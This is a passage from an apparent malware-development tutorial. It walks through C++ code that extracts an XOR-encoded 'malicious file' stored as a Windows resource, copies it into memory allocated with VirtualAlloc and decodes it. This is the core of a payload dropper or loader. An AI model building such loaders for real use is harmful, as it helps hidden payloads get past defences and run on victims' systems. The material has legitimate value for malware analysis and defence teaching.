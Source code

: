 ``` cpp
}
```

Next, we can call [LoadResource](https://docs.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-loadresource) and [LockResource](https://docs.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-lockresource) to get a pointer to this resource in memory.


Also, we call [SizeofResource](https://docs.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-sizeofresource) to get the size of this resource(or the size of the malicious file). This is needed to know how much we need to read from memory.


``` cpp
DWORD dwSizeOfResource = SizeofResource(NULL, hResource);
if (dwSizeOfResource == 0) {
    printf("SizeofResource fails\n");
    return -1;
}
HGLOBAL hgResource = LoadResource(
    NULL,
    hResource
);

if (!hgResource) {
    printf("LoadResource fails\n");
    return -1;
}
// lpResource is the raw pointer to the resource in memory
LPVOID lpResource = LockResource(hgResource); 

if (!lpResource) {
    printf("LockResource fails\n");
    return -1;
}
```


### III. Read resource into memory


Next, we will allocate virtual memory in our current process with the file size using [VirtualAlloc](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualalloc).


Then, we can just call **memcpy** to copy the whole chunk from *lpResource* into this newly allocated virtual memory chunk.


``` cpp
LPVOID lpBuffer = VirtualAlloc(
    NULL,
    dwSizeOfResource,
    MEM_COMMIT | MEM_RESERVE,
    PAGE_READWRITE
);
if (!lpBuffer) {
    printf("VirtualAlloc fails\n");
    return -1;
}

memcpy(lpBuffer, lpResource, dwSizeOfResource);
unXor(lpBuffer, dwSizeOfResource);
```
